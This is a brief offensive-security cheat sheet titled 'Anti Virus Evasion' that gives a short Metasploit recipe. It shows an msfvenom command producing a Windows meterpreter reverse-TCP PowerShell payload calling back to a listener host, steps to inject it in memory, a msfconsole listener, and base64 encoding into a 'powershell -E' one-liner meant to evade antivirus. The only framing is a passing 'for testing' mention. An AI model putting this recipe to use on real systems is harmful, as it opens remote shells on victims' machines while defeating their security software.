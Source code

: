 # Anti Virus Evasion

Generate a malicious payload for testing with AV:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=443 -f powershell`

Add the output to  `in_memory_injection.ps1`.

Create a listener in `msfconsole`.

Encode script in base64 and decode as a one liner. `powershel -E XXXX`:  
https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py







